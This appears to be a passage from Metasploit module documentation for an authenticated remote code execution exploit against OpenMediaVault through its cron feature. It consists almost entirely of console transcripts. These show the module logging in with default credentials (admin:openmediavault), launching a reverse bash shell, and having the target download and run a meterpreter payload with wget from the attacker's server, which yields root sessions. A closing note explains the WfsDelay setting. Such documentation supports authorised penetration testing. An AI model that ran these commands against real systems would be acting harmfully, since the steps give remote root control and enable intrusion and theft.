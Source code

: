 ```msf
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target appears to be vulnerable. Version 7.3.0.pre.5
[*] Executing Unix Command for cmd/unix/reverse_bash
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[+] Cron payload entry successfully removed.
[*] Command shell session 8 opened (192.168.201.8:4444 -> 192.168.201.10:50292) at 2024-07-01 20:14:07 +0000

pwd
/root
uname -a
Linux cerberus 5.15.44-Re4son-v8l+ #1 SMP PREEMPT Debian kali-pi (2022-07-03) aarch64 GNU/Linux
```
###  openmediavault 7.3.0-5 ARM64 Raspberry PI-4  Linux Dropper -  linux/aarch64/meterpreter_reverse_tcp
```msf
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set target 1
target => 1
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set rhosts 192.168.1.10
rhosts => 192.168.1.10
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > set lhost 192.168.1.8
lhost => 192.168.1.8
msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit

msf6 exploit(unix/webapp/openmediavault_auth_cron_rce) > exploit

[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Authenticating with OpenMediaVault using credentials admin:openmediavault
[*] Trying to detect if target is running a vulnerable version of OpenMediaVault.
[+] The target appears to be vulnerable. Version 7.3.0.pre.5
[*] Executing Linux Dropper for linux/aarch64/meterpreter_reverse_tcp
[*] Using URL: http://192.168.201.8:8080/DdVzoLQugqto82
[+] Cron payload execution triggered. Wait at least 1 minute for the session to be established.
[*] Command Stager progress - 100.00% done (120/120 bytes)
[*] Client 192.168.201.10 (Wget/1.21.4) requested /DdVzoLQugqto82
[*] Sending payload to 192.168.201.10 (Wget/1.21.4)
[+] Cron payload entry successfully removed.
[*] Meterpreter session 9 opened (192.168.201.8:4444 -> 192.168.201.10:36792) at 2024-07-01 20:22:02 +0000
[*] Server stopped.

meterpreter > sysinfo
Computer     : 192.168.201.10
OS           : Debian  (Linux 5.15.44-Re4son-v8l+)
Architecture : aarch64
BuildTuple   : aarch64-linux-musl
Meterpreter  : aarch64/linux
meterpreter > getuid
Server username: root
meterpreter >
```
## Limitations
Ensure that your `WfsDelay` advanced option is set to more then 60 seconds to allow `cron` to execute the payload.
